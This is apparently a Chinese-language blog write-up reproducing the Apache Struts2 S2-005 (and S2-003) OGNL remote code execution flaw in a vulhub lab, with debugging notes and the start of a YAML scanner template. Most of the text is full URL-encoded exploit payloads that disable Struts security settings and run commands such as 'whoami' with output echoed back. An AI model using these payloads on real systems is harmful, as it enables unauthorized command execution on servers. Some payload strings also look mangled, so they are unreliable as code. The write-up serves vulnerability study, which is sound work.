





s2-005复现分析
1.漏洞简介
官方描述：
https://cwiki.apache.org/confluence/display/WW/S2-005
s2-005是对s2-003的绕过，s2-003通过将#字符加入了黑名单来限制简单对象的执行，但是#字符可通过编码来绕过，比如：unicode编码（\u0023)或者8进制（\43）。
1 | ('\u0023' + 'session\'user\'')(unused)=0wn3d |
而后为了修复，官方增加安全配置禁止静态方法调用（allowStaticMethodAcces）和类方法执行（MethodAccessor.denyMethodExecution）等来修补。但是并没有完全解决该漏洞，ognl表达式依旧可以执行，通过ognl表达式将安全配置修改即可绕过再次导致了该漏洞。
影响范围：
Struts 2.0.0 - Struts 2.1.8.1
2.poc测试
网上复现大多推荐采用tomcat6，因为在高版本的tomcat中#.等字符出现在高版本中可能会引发404错误。
这个可以通过编码来解决，不一定需要低版本tomct。
1 | result=r"(#context[%22xwork.MethodAccessor.denyMethodExecution%22]=new java.lang.Boolean(false),#_memberAccess[%22allowStaticMethodAccess%22]= new java.lang.Boolean(true),@java.lang.Runtime@getRuntime().exec('open -a Calculator'))(meh)&z[(name)('meh')]=true" |
以下是本人测试通过的poc。
vulhub环境：
tomcat版本： Apache Tomcat/8.5.14
jdk版本：1.8.0_121
无回显的命令执行：
1 | (%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22calc%22.split(%22@%22))')(%5cu0023rt%5cu003d.lang.Runtime))=1 |
有回显得poc探测：
1 | %28%27%5C43_memberAccess.allowStaticMethodAccess%27%29%28a%29=true&%28b%29%28%28%27%5C43context%5b%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27%5d%5C75false%27%29%28b%29%29&%28%27%5C43c%27%29%28%28%27%5C43_memberAccess.excludeProperties%5C75.util.Collections%27%29%28c%29%29&%28g%29%28%28%27%5C43req%5C75.apache.struts2.ServletActionContext%28%29%27%29%28d%29%29&%28i2%29%28%28%27%5C43xman%5C75.apache.struts2.ServletActionContext%28%29%27%29%28d%29%29&%28i97%29%28%28%27%5C43xman.getWriter%28%29.println%28540.8053*217.4633%29%27%29%28d%29%29&%28i99%29%28%28%27%5C43xman.getWriter%28%29.close%28%29%27%29%28d%29%29 |
有回显的命令执行：
1 | (%27%5c43_memberAccess.allowStaticMethodAccess%27)(a)=true&(b)((%27%5c43context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5c75false%27)(b))&(%27%5c43c%27)((%27%5c43_memberAccess.excludeProperties%5c75.util.Collections%27)(c))&(g)((%27%5c43mycmd%5c75%5c%27whoami%5c%27%27)(d))&(h)((%27%5c43myret%5c75.lang.Runtime.exec(%5c43mycmd)%27)(d))&(i)((%27%5c43mydat%5c75new%5c40java.io.DataInputStream(%5c43myret.getInputStream())%27)(d))&(j)((%27%5c43myres%5c75new%5c40byte[51020]%27)(d))&(k)((%27%5c43mydat.readFully(%5c43myres)%27)(d))&(l)((%27%5c43mystr%5c75new%5c40java.lang.String(%5c43myres)%27)(d))&(m)((%27%5c43myout%5c75.apache.struts2.ServletActionContext%27)(d))&(n)((%27%5c43myout.getWriter().println(%5c43mystr)%27)(d)) |
1 | POST /example/HelloWorld.action HTTP/1.1 |
s2-003。
https://github.com/0linlin0/Struts2_Vul_Debug
tomcat版本： Tomcat 7.0.109
jdk版本：1.7
有回显的paylaod:
1 | %28%27%5C43_memberAccess.allowStaticMethodAccess%27%29%28a%29%5C75true&%28b%29%28%28%27%5C43context%5b%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27%5d%5C75false%27%29%28b%29%29&%28%27%5C43c%27%29%28%28%27%5C43_memberAccess.excludeProperties%5C75.util.Collections%27%29%28c%29%29&%28g%29%28%28%27%5C43mycmd%5C75%5C%27whoami%5C%27%27%29%28d%29%29&%28h%29%28%28%27%5C43myret%5C75.lang.Runtime%28%29.exec%28%5C43mycmd%29%27%29%28d%29%29&%28i%29%28%28%27%5C43mydat%5C75new%5C40java.io.DataInputStream%28%5C43myret.getInputStream%28%29%29%27%29%28d%29%29&%28j%29%28%28%27%5C43myres%5C75new%5C40byte%5b51020%5d%27%29%28d%29%29&%28k%29%28%28%27%5C43mydat.readFully%28%5C43myres%29%27%29%28d%29%29&%28l%29%28%28%27%5C43mystr%5C75new%5C40java.lang.String%28%5C43myres%29%27%29%28d%29%29&%28m%29%28%28%27%5C43myout%5C75.apache.struts2.ServletActionContext%28%29%27%29%28d%29%29&%28n%29%28%28%27%5C43myout.getWriter%28%29.println%28%5C43mystr%29%27%29%28d%29%29 |
有回显的poc:
1 | %28%27%5C43_memberAccess.allowStaticMethodAccess%27%29%28a%29=true&%28b%29%28%28%27%5C43context%5b%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27%5d%5C75false%27%29%28b%29%29&%28%27%5C43c%27%29%28%28%27%5C43_memberAccess.excludeProperties%5C75.util.Collections%27%29%28c%29%29&%28g%29%28%28%27%5C43req%5C75.apache.struts2.ServletActionContext%28%29%27%29%28d%29%29&%28i2%29%28%28%27%5C43xman%5C75.apache.struts2.ServletActionContext%28%29%27%29%28d%29%29&%28i97%29%28%28%27%5C43xman.getWriter%28%29.println%28540.8053*217.4633%29%27%29%28d%29%29&%28i99%29%28%28%27%5C43xman.getWriter%28%29.close%28%29%27%29%28d%29%29 |
3.漏洞分析跟踪
docker-compose up -d运行镜像会将docker里的war包拷贝到本地。
运行调试只需要将war包拷贝到tomcat的webapps，解压使用idea打开配置tomcat进行调试即可。

导入Libraries

断点位置
S2-005\WEB-INF\lib\xwork-core-2.1.6.jar!\com\opensymphony\xwork2\DefaultActionInvocation.class#invoke()194行

this.resultCode = interceptor.getInterceptor().intercept(this);这段代码就是去执行拦截器.
S2-005\WEB-INF\lib\xwork-core-2.1.6.jar!\com\opensymphony\xwork2\ognl\OgnlValueStack.class#setValue()128行

This.ognlUtil.setValue执行表达式。
4.psf exp编写
1 | name: poc-yaml-struts2-003-005-rce-attack |
运行效果如下：

 alipay
alipay